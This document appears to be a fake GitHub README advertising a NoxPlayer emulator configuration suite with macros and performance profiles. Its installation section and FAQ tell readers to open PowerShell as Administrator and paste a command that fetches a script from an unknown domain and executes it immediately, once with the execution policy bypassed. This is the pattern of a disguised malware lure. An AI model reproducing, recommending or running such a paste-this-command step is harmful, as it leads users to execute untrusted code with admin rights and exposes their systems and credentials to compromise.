

<div align="center">


<br>


# NoxPlayer Configuration Suite Ultimate
**Instance manager · Macro scripts · Performance profiles**
<br>
**Instance manager · Macro scripts · Performance profiles**
<br>
Windows · Setup · Deployment



**NoxPlayer · Configuration suite · Macros · Windows**

</div>
---

> NoxPlayer configuration suite for Windows with multi-instance layouts, macro recording templates, and CPU/RAM performance profiles.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

📱 **Multi-instance** — Preconfigured slot layouts for several apps.
📝 **Macro scripts** — Record and replay tap sequences.
⚙️ **Performance profiles** — CPU, RAM, and DPI preset files.
🎮 **Key mapping** — Keyboard binding templates for mobile titles.
⚡ **One command setup** — PowerShell handles download and install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 8 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 8 GB.
</details>


TAGS
noxplayer, android-emulator, configuration, macro-scripts, mobile-games, windows, desktop, gaming, virtualization, software
